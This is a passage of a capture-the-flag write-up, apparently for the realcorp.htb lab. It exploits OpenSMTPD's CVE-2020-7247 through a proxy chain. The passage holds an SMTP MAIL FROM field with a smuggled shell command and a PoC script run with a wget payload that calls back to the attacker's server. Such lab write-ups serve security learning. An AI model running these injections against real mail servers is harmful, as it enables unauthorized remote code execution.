 - We have `OpenSMTPD 2.0.0` which could be exploited via [CVE-2020-7247](https://vk9-sec.com/opensmtpd-6-6-1-remote-code-execution-smtp_mailaddr-cve-2020-7247/)
  - The [PoC](https://www.exploit-db.com/exploits/47984)
```
└─$ sudo proxychains -f proxy-to-squid.conf nc 10.241.251.113 25
[proxychains] config file found: proxy-to-squid.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.241.251.113:25  ...  OK
220 smtp.realcorp.htb ESMTP OpenSMTPD
HELO x
250 smtp.realcorp.htb Hello x [10.241.251.1], pleased to meet you
MAIL FROM:<;ping -c 1 10.10.16.9;>
250 2.0.0 Ok
RCPT TO:<j.nakazawa@realcorp.htb>
250 2.1.5 Destination address valid: Recipient ok
DATA
354 Enter mail, end with "." on a line by itself

TEST
.
250 2.0.0 cd353533 Message accepted for delivery
```
```
└─$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
16:53:14.282393 IP realcorp.htb > 10.10.16.9: ICMP echo request, id 15, seq 1, length 64
16:53:14.282435 IP 10.10.16.9 > realcorp.htb: ICMP echo reply, id 15, seq 1, length 64
```
- Now, let's get a reverse shell
  - We have to replace the `root` with `j.nakazawa@realcorp.htb` for [PoC](https://www.exploit-db.com/exploits/47984)  to work
  - Playing around with different `cmd` payloads
    - The one that works is `wget <ip>`
```
└─$ sudo proxychains -f proxy-to-squid.conf python3 cve-2020-7247.py 10.241.251.113 25 "wget 10.10.16.9"
[proxychains] config file found: proxy-to-squid.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  10.10.10.224:3128  ...  127.0.0.1:3128  ...  10.197.243.77:3128  ...  10.241.251.113:25  ...  OK
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
```
```
└─$ python3 -m http.server 80                 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.224 - - [30/Sep/2023 17:10:52] "GET / HTTP/1.1" 200 -
```
